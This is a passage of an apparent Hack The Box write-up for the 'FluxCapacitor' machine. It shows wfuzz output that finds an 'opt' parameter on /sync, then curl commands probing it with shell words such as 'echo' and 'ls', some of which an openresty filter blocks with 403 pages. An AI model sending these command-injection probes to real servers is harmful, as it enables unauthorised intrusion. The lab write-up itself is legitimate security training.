 ```

Target: http://10.10.10.69/sync?FUZZ=echo
Total requests: 2588

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000753:  C=403      7 L	      10 W	    175 Ch	  "opt"

Total time: 16.21017
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 159.6528
```

With opt parameter we have a 403 instead of 200.

```
root@kali:~/htb/YoloToolbox/machines/htb/fluxcapacitor# curl http://fluxcapacitor.htb/sync?opt=a
20190915T00:33:56



root@kali:~/htb/YoloToolbox/machines/htb/fluxcapacitor# curl http://fluxcapacitor.htb/sync?opt=echo
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty/1.13.6.1</center>
</body>
</html>

root@kali:~/htb/YoloToolbox/machines/htb/fluxcapacitor# curl http://fluxcapacitor.htb/sync?opt=ech
20190915T00:34:20

root@kali:~/htb/YoloToolbox/machines/htb/fluxcapacitor# curl http://fluxcapacitor.htb/sync?opt=ls
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty/1.13.6.1</center>
</body>
</html>

root@kali:~/htb/YoloToolbox/machines/htb/fluxcapacitor# curl http://fluxcapacitor.htb/sync?opt=dir
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty/1.13.6.1</center>
</body>
</html>

```
